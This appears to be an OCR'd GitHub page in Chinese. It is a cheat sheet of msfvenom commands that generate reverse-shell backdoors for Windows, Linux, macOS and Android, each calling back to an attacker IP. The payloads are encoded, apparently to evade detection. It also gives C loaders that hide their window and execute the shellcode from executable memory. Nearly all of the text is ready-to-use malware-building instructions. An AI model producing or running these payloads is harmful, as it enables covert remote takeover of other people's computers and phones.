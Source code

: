 ```bash
#win x86生成c文件
msfvenom -p windows/meterpreter/reverse_tcp lhost=[AttackerIP] lport=4444 -f c -e x86/shikata_ga_nai -i 12 -b '\x00'


#vc++6.0 编译（含buf数组的）C代码：
#include <stdio.h>
#pragmacomment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//运行时不显示窗口
unsignedchar buf[] =
"buf数组";//复制数组内容 粘贴到此处
main()
{
((void(*)(void))&buf)();
}


#VS 编译：
main()

{

	Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	memcpy(Memory, buf, sizeof(buf));

	((void(*)())Memory)();

}
```


### 生成典型payload：各系统下的反向连接后门

reverse_tcp 支持以下平台

Platform: Android, BSD, Java, JavaScript, Linux, OSX, NodeJS, PHP, Python, Ruby, Solaris, Unix, Windows, Mainframe, Multi


操作系统
```
#win x86
msfvenom -p windows/meterpreter/reverse_tcp lhost=[AttackerIP] lport=4444 -f exe -o /tmp/my_payload.exe
x86下 -p后加: windows/../..
没有这种名字的载荷: windows/x86/../.. 


#linux x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f elf > shell.elf

#Mac x64
msfvenom -p osx/x64/shell_reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f macho > shell.macho


#android
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4444 R > androvirus.apk
```

